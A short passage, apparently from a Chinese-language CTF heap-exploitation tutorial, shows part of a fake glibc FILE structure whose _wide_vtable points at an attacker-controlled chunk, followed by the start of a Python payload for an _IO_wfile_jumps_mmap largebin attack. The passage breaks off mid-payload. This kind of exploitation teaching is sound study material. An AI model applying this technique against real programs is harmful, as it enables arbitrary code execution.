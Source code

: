 ```c
  },
  _codecvt = {
	...
  },
  _shortbuf = L"",
  _wide_vtable = 0x55c68bb6ac20 // _wide_vtable设置为可控堆块chunk B的地址，偏移为0xe0
}
```

最后设置`*(B + 0x68) = func`即可。

`python`版本的`payload`示例如下：

```python
_IO_wfile_jumps_mmap = libc.address + 0x217000
fake_IO = p64(0) + p64(0) # 通过largebinattack的前两个size_t难以控制
fake_IO += p64(0x200) # fp->_IO_read_end > fp->_IO_read_ptr,这里设置比chunk size大
fake_IO = fake_IO.ljust(0x20, b'\x00') + p64(0) # fp->_IO_write_ptr > _IO_write_base
